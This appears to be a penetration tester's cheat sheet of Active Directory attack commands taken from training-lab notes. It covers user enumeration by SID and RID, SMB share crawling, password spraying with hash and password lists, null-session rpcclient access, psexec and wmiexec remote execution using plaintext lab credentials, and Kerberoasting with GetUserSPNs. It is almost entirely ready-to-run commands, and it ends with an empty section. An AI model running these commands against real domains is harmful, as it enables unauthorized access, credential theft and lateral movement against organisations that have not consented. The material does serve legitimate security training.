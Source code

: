 ```
oxdf@hacky$ lookupsid.py 0xdf@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users
```

### Spider_plus run against a specific share
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares’
```
```
head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 
```
### Password Spraying without bruteforce
```
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes --no-bruteforce
```
```
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords --no-bruteforce
```
## SMBMap
### Check Access
```
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```
**CASE SENSITIVE FOR DOMAIN**
### Recursive List Of All Directories
```
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```
## rpcclient
```
rpcclient -U "" -N 172.16.5.5
```
### User Enumeration By RID
```
enumdomusers
```
```
queryuser <RID>
```
## Impacket
### Psexec.py
```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
### wmiexec.py
```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```
### Get-UserSPNs
```
impacket-GetUserSPNs -dc-ip 10.10.10.100 ACTIVE.HTB/svc_tgs -request
```
## Windapsearch 
#### Domain Admins
```
```